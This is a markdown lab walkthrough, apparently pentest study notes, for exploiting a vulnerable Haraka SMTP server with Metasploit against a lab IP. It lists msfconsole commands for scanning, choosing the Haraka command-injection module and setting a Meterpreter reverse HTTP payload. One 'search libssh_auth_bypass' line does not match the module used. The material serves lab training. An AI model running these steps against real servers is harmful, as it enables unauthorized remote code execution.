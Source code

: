 # 🔬SMTP - MSF Exploit

## Lab 1

>  🔬 [Vulnerable SMTP Server](https://www.attackdefense.com/challengedetails?cid=715)
>
>  - Target IP: `192.109.36.3`
>  - Exploit the target with the appropriate Metasploit Framework module
>  - [Haraka < 2.8.9 - Remote Command Execution](https://www.exploit-db.com/exploits/41162)

```bash
ip -br -c a
service postgresql start && msfconsole -q
```

```bash
db_status
setg RHOSTS 192.109.36.3
setg RHOST 192.109.36.3
workspace -a SMTP_haraka
```

- Perform an `nmap` scan directly into MSF

```bash
db_nmap -sV -O 192.109.36.3
```

![db_nmap -sV -O 192.109.36.3](3-metasploitassets/image-20230416143927400.png)

```bash
search libssh_auth_bypass
use exploit/linux/smtp/haraka
info
# Description:
#   The Haraka SMTP server comes with a plugin for processing 
#   attachments. Versions before 2.8.9 can be vulnerable to command 
#   injection
options
set SRVPORT 9898
set email_to root@attackdefense.test
set payload linux/x64/meterpreter_reverse_http
set LHOST eth1
set LPORT 8080
run

# This is a NON-staged payload
```

![Metasploit - exploit/linux/smtp/haraka](3-metasploitassets/image-20230416144316805.png)

------

